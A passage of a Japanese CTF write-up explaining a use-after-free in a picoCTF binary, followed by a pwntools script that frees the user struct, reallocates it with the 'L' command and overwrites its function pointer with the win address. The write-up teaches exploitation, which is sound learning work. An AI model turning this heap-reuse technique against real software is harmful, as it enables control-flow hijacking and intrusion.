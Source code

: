 mainの最初ででuserポインタにコマンドの構造体を与えていて、ここにコマンドの結果が格納され、飛ぶようになっています。一方で`L`コマンドだけはprocessInputの中で処理が終わっていることがポイントで、この関数の後の続くdoProcessで、user->whatToDo()が走ります。userポインタの先は`I`コマンドで解放できるので、これを使って編集します。

手順は、まず`I`コマンドでuserポインタの先を解放した後、`L`コマンドでチャンクを確保します。この時、userポインタの先と`L`で確保したチャンクとが同じなので、ここにwinのアドレスを入れることで、直後のuser->whatToDo()でwinが走るようになります。

```python
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'
context.terminal = ['tmux', 'split-window', '-h']

TARGET = './vuln'
HOST = 'mercury.picoctf.net'
PORT = 6312

elf = ELF(TARGET)
def start():
        if not args.R:
                print("local")
                return process(TARGET)
                # return process(TARGET, env={"LD_PRELOAD":"./libc.so.6"})
                # return process(TARGET, stdout=process.PTY, stdin=process.PTY)
        else:
                print("remote")
                return remote(HOST, PORT)

def get_base_address(proc):
        lines = open("/proc/{}/maps".format(proc.pid), 'rb').readlines()
        for line in lines :
                if TARGET[2:] in line.split('/')[-1] :
                        break
        return int(line.split('-')[0], 16)
        # return int(open("/proc/{}/maps".format(proc.pid), 'rb').readlines()[0].split('-')[0], 16)

def debug(proc, breakpoints):
        script = "handle SIGALRM ignore\n"
        PIE = get_base_address(proc)
        script += "set $base = 0x{:x}\n".format(PIE)
        for bp in breakpoints:
                script += "b *0x%x\n"%(PIE+bp)
        script += "c"
        gdb.attach(proc, gdbscript=script)

def dbg(val): print("\t-> %s: 0x%x" % (val, eval(val)))

win = 0x80487d6
r = start()
if args.D:
    debug(r, [])

r.sendlineafter('xit\n', 'i')
r.sendlineafter('?', 'y')
r.sendlineafter('xit\n', 'l')
r.sendafter(':', p32(win))

r.interactive()
r.close()
```
